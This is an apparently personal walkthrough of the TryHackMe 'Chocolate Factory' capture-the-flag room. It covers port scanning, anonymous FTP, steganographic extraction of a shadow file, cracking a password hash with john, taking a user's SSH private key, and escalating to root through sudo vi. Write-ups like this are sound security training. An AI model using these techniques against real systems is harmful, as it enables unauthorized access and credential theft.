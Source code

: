 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Chocolate Factory
# DESCRIPTION       . A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/chocolatefactory
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.6.249 -oN chocolate
```

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg

22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1631bbb51fcccc12148ff0d833b0089b (RSA)
|   256 e71fc9db3eaa44b672103ceedb1d3390 (ECDSA)
|_  256 b44502b6248ea9065f6c79448a06555e (ED25519)

80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

100/tcp open  newacct?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     "Welcome to chocolate room!! 
|     ___.---------------.
|     .'__'__'__'__'__,` . ____ ___ \r
|     _:\x20 |:. \x20 ___ \r
|     \'__'__'__'__'_`.__| `. \x20 ___ \r
|     \'__'__'__\x20__'_;-----------------`
|     \|______________________;________________|
|     small hint from Mr.Wonka : Look somewhere else, its not here! ;) 
|_    hope you wont drown Augustus"
```

- All ports from 100-125 have the same banner, so I trimmed the output for readability. 

- `Mr.Wonka` and `Augustus` can be possible usernames, but let's take a look at the `FTP` service.

- It allows for anonymous login, and by doing so, we're able to gather `gum_room.jpg` file.

- This file appears to extract some hidden data that can be extracted using `steghide --extract -sf` ; the output will be encoded in `base64`, so we need to decode it

```
base64 -d b64.txt

daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
sync:*:18380:0:99999:7:::
games:*:18380:0:99999:7:::
man:*:18380:0:99999:7:::
lp:*:18380:0:99999:7:::
mail:*:18380:0:99999:7:::
news:*:18380:0:99999:7:::
uucp:*:18380:0:99999:7:::
proxy:*:18380:0:99999:7:::
www-data:*:18380:0:99999:7:::
backup:*:18380:0:99999:7:::
list:*:18380:0:99999:7:::
irc:*:18380:0:99999:7:::
gnats:*:18380:0:99999:7:::
nobody:*:18380:0:99999:7:::
systemd-timesync:*:18380:0:99999:7:::
systemd-network:*:18380:0:99999:7:::
systemd-resolve:*:18380:0:99999:7:::
_apt:*:18380:0:99999:7:::
mysql:!:18382:0:99999:7:::
tss:*:18382:0:99999:7:::
shellinabox:*:18382:0:99999:7:::
strongswan:*:18382:0:99999:7:::
ntp:*:18382:0:99999:7:::
messagebus:*:18382:0:99999:7:::
arpwatch:!:18382:0:99999:7:::
Debian-exim:!:18382:0:99999:7:::
uuidd:*:18382:0:99999:7:::
debian-tor:*:18382:0:99999:7:::
redsocks:!:18382:0:99999:7:::
freerad:*:18382:0:99999:7:::
iodine:*:18382:0:99999:7:::
tcpdump:*:18382:0:99999:7:::
miredo:*:18382:0:99999:7:::
dnsmasq:*:18382:0:99999:7:::
redis:*:18382:0:99999:7:::
usbmux:*:18382:0:99999:7:::
rtkit:*:18382:0:99999:7:::
sshd:*:18382:0:99999:7:::
postgres:*:18382:0:99999:7:::
avahi:*:18382:0:99999:7:::
stunnel4:!:18382:0:99999:7:::
sslh:!:18382:0:99999:7:::
nm-openvpn:*:18382:0:99999:7:::
nm-openconnect:*:18382:0:99999:7:::
pulse:*:18382:0:99999:7:::
saned:*:18382:0:99999:7:::
inetsim:*:18382:0:99999:7:::
colord:*:18382:0:99999:7:::
i2psvc:*:18382:0:99999:7:::
dradis:*:18382:0:99999:7:::
beef-xss:*:18382:0:99999:7:::
geoclue:*:18382:0:99999:7:::
lightdm:*:18382:0:99999:7:::
king-phisher:*:18382:0:99999:7:::
systemd-coredump:!!:18396::::::
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6${REDACTED}bwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

- Alright, so we got the hash for `charlie`. 

- I ran john against this file for a little while using `rockyou.txt` and I got the password for `charlie`.

```
c{redacted}4           (charlie)    
```

- SSH wasn't working with these credentials, so I assumed these are the credentials needed to login on the login panel running on the webserver.

- By doing so, we get access to a prompt that can run commands in the OS.

- A simple `cd /home/charlie;ls` will reveal 2 files: `teleport` and `teleport.pub`.

- If we `cat teleport.pub`, we see that this is the public SSH key for charlie, so I assume teleport is the private one.

- Cat `teleport` and copy the output to a local file, then `chmod 600 <filename>`

- Now, we can SSH in to the box as user charlie: `ssh -i rsa_file charlie@ip`

```bash
sudo -l

(ALL : !root) NOPASSWD: /usr/bin/vi
```

- The privileges can be escalated using 

```
sudo /usr/bin/vi

<ESC>
:!/bin/bash
```

- Now we're root. The issue is that I have no clue where the flag is or how it is named. The only thing we have in `/root` is `root.py`

```bash
cat root.py 

from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```

- So the program asks for a `key`, which then is used to decrypt the message hold in `encrypted_mess` variable. Then, this decrypted message is decoded and printed on the screen. 

- I assume that's the flag. But where's the key?

- I was thinking that since we already have the encrypted message, maybe we can do some tricks to get the flag without the key. But their doc page seems to destroy my only hope

```
Fernet guarantees that a message encrypted using it cannot be manipulated or read without the key.
```

- I decided that if the key is somewhere on the server, the webserver might give me some clues.

- Inside `/var/www/html` we can find the `key_rev_key` binary, which, if we run `strings` on it, we can find the key

```
 congratulations you have found the key:   
b'-VkgXhF{REDACTED}hcGSQzY='
```

- However, I wanted to see the entire logic of the program, so I've started a python3 http server on the compromised machine and used `wget` to download the file.

- Then, I've decompiled it using `ghidra`.

- Here's the main function of the program.

```

undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Enter your name: ");
  __isoc99_scanf(&DAT_0010090a,local_38);
  iVar1 = strcmp(local_38,"laksdhfas");
  if (iVar1 == 0) {
    printf("\n congratulations you have found the key:   ");
    printf("b\'-VkgXhF{REDACTED}hcGSQzY=\'");
    printf("\n Keep its safe");
  }
  else {
    puts("Bad name!");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

- When run, the program asks for a name. Anything other than `laksdhfas` as input is considered invalid and the program exits.

- Otherwise, the message found in `strings` is outputted.

- If we run `python /root/root.py` and input the `b'-VkgXhFf6s{redacted}6GSQzY='` key, we're getting the root flag.

- The user flag is in `/home/charlie/user.txt`.

